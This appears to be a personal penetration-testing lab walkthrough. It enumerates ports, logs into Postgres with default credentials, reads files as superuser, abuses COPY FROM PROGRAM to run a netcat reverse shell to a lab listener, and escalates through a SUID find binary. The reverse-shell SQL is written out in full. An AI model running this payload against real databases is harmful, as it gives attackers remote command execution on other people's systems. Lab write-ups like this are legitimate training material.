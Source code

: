 #postgres #psql #port5437 #suid-find 

>[!code]- Find open ports (21, 22, 80, 5437)
>![Pasted image 20241002060947](Images/Pasted%20image%2020241002060947.png)
#### local
###### Postgres (port 5437)

>[!code]- Access database with default credentials
>###### Connect
>![Pasted image 20241002062014](Images/Pasted%20image%2020241002062014.png)
>###### Postgres user is superuser
>![Pasted image 20241002062333](Images/Pasted%20image%2020241002062333.png)
>###### Use superuser privileges to list arbitrary file contents
>(`\l`) list available databases 
>(`\c`) connect to postgres database first
>
>![Pasted image 20241002063524](Images/Pasted%20image%2020241002063524.png)

>[!code]- Obtain a reverse shell via Postgres
>_(Supported versions 9.3 – 14)_
>###### As per [this guide](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767), create a table
>![Pasted image 20241002064535](Images/Pasted%20image%2020241002064535.png)
>```sql
>CREATE TABLE shell(output text);
>```
>###### Execute reverse shell (first one didn't work)
>![Pasted image 20241002064727](Images/Pasted%20image%2020241002064727.png)
>```sql
>COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.240 80 >/tmp/f';
>```
>###### Catch on the listener
>![Pasted image 20241002064752](Images/Pasted%20image%2020241002064752.png)

>[!success]- Obtain local.txt
>![Pasted image 20241002064849](Images/Pasted%20image%2020241002064849.png)
#### root

>[!code]- SUID bit set on find binary
>###### Find binaries with SUID bit set
>![Pasted image 20241028061908](Images/Pasted%20image%2020241028061908.png)
>###### Exploit find binary
>![Pasted image 20241028061947](Images/Pasted%20image%2020241028061947.png)

>[!success]- Obtain proof.txt
>![Pasted image 20241028062028](Images/Pasted%20image%2020241028062028.png)

